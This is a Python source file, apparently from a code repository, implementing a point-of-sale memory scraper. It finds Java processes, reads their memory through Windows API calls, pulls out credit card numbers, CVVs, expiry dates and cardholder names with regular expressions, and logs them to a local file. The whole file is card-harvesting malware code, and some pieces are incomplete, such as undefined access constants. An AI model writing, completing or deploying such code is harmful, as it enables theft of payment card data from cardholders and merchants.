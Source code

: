 import re
import ctypes
import time
import threading
import logging
from queue import Queue
import psutil  # For scanning running processes

# Initialize memory queue and running flag
memory_queue = Queue()
running = True

# Regex patterns for card information
CARD_NUMBER_PATTERN = r'\b(?:\d[ -]*?){13,16}\b'  # Example pattern for 13-16 digit card numbers
CVV_PATTERN = r'\b\d{3,4}\b'  # Typical CVV pattern (3 or 4 digits)
EXPIRY_DATE_PATTERN = r'\b(0[1-9]|1[0-2])\/([0-9]{2})\b'  # Expiry date pattern (MM/YY)
NAME_PATTERN = r'[A-Z][a-z]+ [A-Z][a-z]+'  # Simple pattern for detecting names (First Last)

# Function to scan a memory chunk for card info
def scan_memory_chunk(memory_chunk):
    valid_cards = []
    
    # Search for potential card numbers
    card_numbers = re.findall(CARD_NUMBER_PATTERN, memory_chunk)
    
    for card_number in card_numbers:
        # Search for associated CVV, Expiry Date, and Name
        cvv = re.search(CVV_PATTERN, memory_chunk)
        expiry_date = re.search(EXPIRY_DATE_PATTERN, memory_chunk)
        name = re.search(NAME_PATTERN, memory_chunk)

        if card_number and cvv and expiry_date and name:
            card_info = {
                'Card Number': card_number,
                'Name': name.group(),
                'CVV': cvv.group(),
                'Expiry Date': expiry_date.group()
            }
            valid_cards.append(card_info)
    
    return valid_cards

# Worker thread that processes memory chunks for a specific process
def memory_scan_worker(process_handle, pid):
    while running:
        if memory_queue.empty():
            time.sleep(1)  # Avoid busy waiting
            continue
        
        base_addr, size = memory_queue.get()
        
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            # Check if the address is still valid and if we can read memory
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                print(f"[PID {pid}] Scanning memory region at address {base_addr} with size {size}")
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1', errors='ignore'))
                if valid_cards:
                    for card in valid_cards:
                        formatted_output = f"[PID {pid}] {card['Card Number']}:{card['Name']}:{card['CVV']}:{card['Expiry Date']}"
                        print(formatted_output)
                        logging.info(formatted_output)  # Log to file
                else:
                    print(f"[PID {pid}] No valid card data found in this memory region.")
            else:
                # Handle the case where ReadProcessMemory fails
                logging.warning(f"[PID {pid}] Failed to read memory at {base_addr}: Address may not be valid or accessible.")
                print(f"[PID {pid}] Failed to read memory at address {base_addr}.")
        except Exception as e:
            logging.error(f"[PID {pid}] Error reading memory at {base_addr}: {e}")
            print(f"[PID {pid}] Error reading memory at address {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Function to automatically detect PIDs of relevant processes (e.g., javaw.exe)
def get_relevant_pids():
    relevant_pids = []
    for proc in psutil.process_iter(['pid', 'name']):
        try:
            # Check for processes that might be related to PoS software
            if proc.info['name'] in ['javaw.exe', 'java.exe']:  # Add other relevant names here if needed
                print(f"Detected relevant process: {proc.info['name']} (PID: {proc.info['pid']})")
                relevant_pids.append(proc.info['pid'])
        except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
            continue
    return relevant_pids

# Function to retrieve memory regions of a given process
def get_memory_regions(pid):
    """ Retrieves the memory regions of the specified process. """
    memory_regions = []
    
    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
    if not process_handle:
        print(f"Could not open process with PID {pid}.")
        return memory_regions
    
    # MEMORY_BASIC_INFORMATION structure
    class MEMORY_BASIC_INFORMATION(ctypes.Structure):
        _fields_ = [("BaseAddress", ctypes.c_void_p),
                    ("AllocationBase", ctypes.c_void_p),
                    ("AllocationProtect", ctypes.c_ulong),
                    ("RegionSize", ctypes.c_size_t),
                    ("State", ctypes.c_ulong),
                    ("Protect", ctypes.c_ulong),
                    ("Type", ctypes.c_ulong)]
    
    mbi = MEMORY_BASIC_INFORMATION()
    address = 0
    while ctypes.windll.kernel32.VirtualQueryEx(process_handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
        if mbi.State == 0x1000:  # MEM_COMMIT
            # Consider only readable regions (PAGE_READWRITE, PAGE_READONLY)
            if mbi.Protect in (0x04, 0x02):
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
        
        address += mbi.RegionSize

    ctypes.windll.kernel32.CloseHandle(process_handle)
    return memory_regions

# Main function to scan memory of automatically detected processes
def scan_process_memory(num_threads=4):
    pids = get_relevant_pids()
    
    if not pids:
        print("No relevant processes found.")
        return

    for pid in pids:
        print(f"Starting memory scan for PID {pid}")
        memory_regions = get_memory_regions(pid)  # <-- Corrected here
        if not memory_regions:
            print(f"[PID {pid}] No valid memory regions found.")
            continue

        process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not process_handle:
            logging.error(f"[PID {pid}] Could not open process.")
            print(f"[PID {pid}] Could not open process.")
            continue

        # Start threads for each process
        threads = []
        for _ in range(num_threads):
            t = threading.Thread(target=memory_scan_worker, args=(process_handle, pid))
            t.daemon = True  # Allow threads to exit when the main program does
            t.start()
            threads.append(t)

        try:
            while running:
                # Keep scanning new memory regions in a loop
                new_memory_regions = get_memory_regions(pid)  # <-- Corrected here
                for region in new_memory_regions:
                    print(f"[PID {pid}] Adding memory region to queue: {region}")
                    memory_queue.put(region)

                time.sleep(5)  # Delay between scans to reduce CPU usage

        except KeyboardInterrupt:
            print(f"Stopping the memory scan for PID {pid}...")
        finally:
            for t in threads:
                t.join()
            ctypes.windll.kernel32.CloseHandle(process_handle)

    print("All memory scans completed.")

# Example usage
if __name__ == "__main__":
    logging.basicConfig(level=logging.INFO, filename='memory_scan.log', filemode='a', format='%(asctime)s - %(message)s')

    # Start scanning memory for relevant processes
    scan_process_memory(num_threads=4)
